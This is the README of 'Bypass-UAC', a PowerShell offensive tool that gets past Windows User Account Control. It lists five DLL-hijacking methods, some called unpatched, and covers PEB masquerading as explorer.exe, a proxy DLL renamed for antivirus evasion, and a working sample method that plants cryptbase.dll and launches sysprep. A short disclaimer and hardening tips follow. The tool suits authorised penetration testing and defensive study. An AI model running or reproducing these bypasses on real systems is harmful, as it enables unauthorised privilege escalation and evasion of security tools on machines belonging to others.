 # Bypass-UAC
Bypass-UAC provides a framework to perform UAC bypasses based on auto elevating IFileOperation COM object method calls. This is not a new technique, traditionally, this is accomplished by injecting a DLL into "explorer.exe". This is not desirable because injecting into explorer may trigger security alerts and working with unmanaged DLL's makes for an inflexible work-flow.

To get around this, Bypass-UAC implements a function which rewrites PowerShell's PEB to give it the appearance of "explorer.exe". This provides the same effect because COM objects exclusively rely on Windows's Process Status API (PSAPI) which reads the process PEB.

# Usage

Bypass-UAC is self-contained and does not have any dependencies, bar a requirement that the target have PowerShell v2.

#### Methods

* UacMethodSysprep: Original technique by Leo Davidson (sysprep -> cryptbase.dll)
  * Targets: x32/x64 Windows 7 & 8
* ucmDismMethod: Hybrid method (PkgMgr -> DISM -> dismcore.dll)
  * Targets: x64 Win7+ (currently unpatched)
* UacMethodMMC2: Hybrid method (mmc -> rsop.msc -> wbemcomn.dll)
  * Targets: x64 Win7+ (currently unpatched)
* UacMethodTcmsetup: Hybrid method (tcmsetup -> tcmsetup.exe.local -> comctl32.dll)
  * Targets: x32/x64 Win7+ (UAC "0day" ¯\_(ツ)_/¯)
* UacMethodNetOle32: Hybrid method (mmc some.msc -> Microsoft.NET\Framework[64]\..\ole32.dll)
  * Targets: x32/x64 Win7+ (UAC "0day" ¯\_(ツ)_/¯)

#### Sample Output

**Win 7 Pro**

![UacMethodSysprep](images/Win7-32.png)

**Win 10 Pro**

![UacMethodTcmsetup](images/Win10-32.png)

# Components

#### PSReflect

By [@mattifestation](https://twitter.com/mattifestation), allows you to easily define in-memory enums, structs, and Win32 functions. This is necessary because it allows PowerShell to use the Windows API without compiling c# at runtime. Doing that is ok most of the time but it writes temporary files to disk and won't work if csc is blacklisted.

#### Masquerade-PEB

A modified version of [Masquerade-PEB](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Masquerade-PEB.ps1), changed to use PSReflect. This function overwrites PowerShell's PEB to impersonate "explorer.exe".

#### Invoke-IFileOperation

Load a .NET dll into memory which exposes an IFileOperation COM object interface to PowerShell. This is based on work done by Stephen Toub, published in the December 2007 MSDN magazine (I added the pages in the [images](images) folder for reference). Further details available in the [FileOperations](FileOperations) folder.

```
PS C:\Users\b33f> $IFileOperation |Get-Member
 
    TypeName: FileOperation.FileOperation
 
 Name              MemberType Definition
 ----              ---------- ----------
 CopyItem          Method     void CopyItem(string source, string destination, string newName)
 DeleteItem        Method     void DeleteItem(string source)
 Dispose           Method     void Dispose(), void IDisposable.Dispose()
 Equals            Method     bool Equals(System.Object obj)
 GetHashCode       Method     int GetHashCode()
 GetType           Method     type GetType()
 MoveItem          Method     void MoveItem(string source, string destination, string newName)
 NewItem           Method     void NewItem(string folderName, string name, System.IO.FileAttributes attrs)
 PerformOperations Method     void PerformOperations()
 RenameItem        Method     void RenameItem(string source, string newName)
 ToString          Method     string ToString()
```

#### Emit-Yamabiko

Bootstrap function which writes an x32/x64 bit proxy dll to disk (Yamabiko). This dll is based on [fubuki](https://github.com/hfiref0x/UACME/tree/master/Source/Fubuki) from [@hfiref0x](https://twitter.com/hfiref0x)'s UACME project. Mostly I stripped out the redundant functionality and did some minor renaming for AV evasion. Further details available in the [Yamabiko](Yamabiko) folder.

# Contributing

Currently there are five methods in Bypass-UAC, I will add more gradually but it would be awesome if people want to contribute. It is really easy to add a new method, provided you need an elevated file copy/move/rename or folder creation. A sample method can be seen below for reference.

```powershell
'UacMethodSysprep'
{
    # Original Leo Davidson sysprep method
    # Works on everything pre 8.1
    if ($OSMajorMinor -ge 6.3) {
        echo "[!] Your OS does not support this method!`n"
        Return
    }

    # Impersonate explorer.exe
    echo "`n[!] Impersonating explorer.exe!"
    Masquerade-PEB -BinPath "C:\Windows\explorer.exe"

    if ($DllPath) {
        echo "[>] Using custom proxy dll.."
        echo "[+] Dll path: $DllPath"
    } else {
        # Write Yamabiko.dll to disk
        echo "[>] Dropping proxy dll.."
        Emit-Yamabiko
    }

    # Expose IFileOperation COM object
    Invoke-IFileOperation

    # Exploit logic
    echo "[>] Performing elevated IFileOperation::MoveItem operation.."
    $IFileOperation.MoveItem($DllPath, $($env:SystemRoot + '\System32\sysprep\'), "cryptbase.dll")
    $IFileOperation.PerformOperations()
    echo "`n[?] Executing sysprep.."
    IEX $($env:SystemRoot + '\System32\sysprep\sysprep.exe')

    # Clean-up
    echo "[!] UAC artifact: $($env:SystemRoot + '\System32\sysprep\cryptbase.dll')`n"
}
```

Similarly, using [EXPORTSTOC++](http://sourcesecure.net/tools/exportstoc/) you can easily copy/paste exports into Yamabiko to target new binaries!

# Disclaimer

This project is for authorized use only, that goes without saying, I don't take responsibility for foolish people doing bad things!

#### Protect Yourself

* Don't provide users with local Administrator rights.
* Change the default UAC setting to "Always notify me and wait for my response" & require users to enter their password.
* Remember Microsoft's official position is that UAC is not a security feature!

# References

* Anatomy of UAC Attacks
  * http://www.fuzzysecurity.com/tutorials/27.html
* UACME
  * https://github.com/hfiref0x/UACME
* Windows 7 UAC whitelist
  * http://www.pretentiousname.com/misc/win7_uac_whitelist2.html
* Malicious Application Compatibility Shims
  * https://www.blackhat.com/docs/eu-15/materials/eu-15-Pierce-Defending-Against-Malicious-Application-Compatibility-Shims-wp.pdf
* KernelMode UACMe thread
  * http://www.kernelmode.info/forum/viewtopic.php?f=11&t=3643
* KernelMode, Using SxS redirection to gain NT AUTHORITY\SYSTEM privileges
  * http://www.kernelmode.info/forum/viewtopic.php?f=11&t=3643&start=110
* Syscan360, UAC security issues
  * https://www.syscan360.org/slides/2013_ZH_DeepThinkingTheUACSecurityIssues_Instruder.pdf
* Microsoft technet, Inside Windows 7 User Account Control
  * https://technet.microsoft.com/en-us/magazine/2009.07.uac.aspx
* Cobalt Strike, User Account Control – What Penetration Testers Should Know
  * http://blog.cobaltstrike.com/2014/03/20/user-account-control-what-penetration-testers-should-know/
